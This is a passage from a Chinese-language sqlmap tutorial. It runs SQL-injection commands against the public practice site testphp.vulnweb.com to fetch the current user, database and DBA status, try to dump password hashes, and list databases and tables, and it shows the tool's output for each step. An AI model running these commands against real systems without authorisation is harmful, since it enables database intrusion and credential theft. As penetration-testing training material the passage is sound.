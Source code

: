 ```bash
python sqlmap.py -u "http://testphp.vulnweb.com/artists.php?artist=1"  --dbms mysql --random-agent --batch --passwords
```

4、综合测试，`--current-db` 显示当前库

```bash
python sqlmap.py -u "http://testphp.vulnweb.com/artists.php?artist=1" --dbms mysql --random-agent --current-user --current-db --is-dba --passwords -v 1
```

```
当前用户: 'acuart@localhost'
当前数据库: 'acuart'
当前用户是DBA: False
[21:10:05] [WARNING] 无法检索用户的密码 哈希数 'acuart'
[21:10:05] [ERROR] 无法检索数据库用户的密码哈希
```

## 获取所有库

`--dbs`

```bash
python sqlmap.py -u "http://testphp.vulnweb.com/artists.php?artist=1"  --dbms mysql --random-agent --batch --dbs
```

```
可用数据库: [2]:
[*] acuart
[*] information_schema
```

## 获取表

根据库列出表， `-D` 指定库 ，`--tables` 列出所有表

```bash
python sqlmap.py -u "http://testphp.vulnweb.com/artists.php?artist=1"  --dbms mysql --random-agent --batch -D acuart --tables
```

```
数据库: acuart
[8 tables]
+-----------+
| artists   |
| carts     |
| categ     |
| featured  |
| guestbook |
| pictures  |
| products  |
| users     |
+-----------+
```
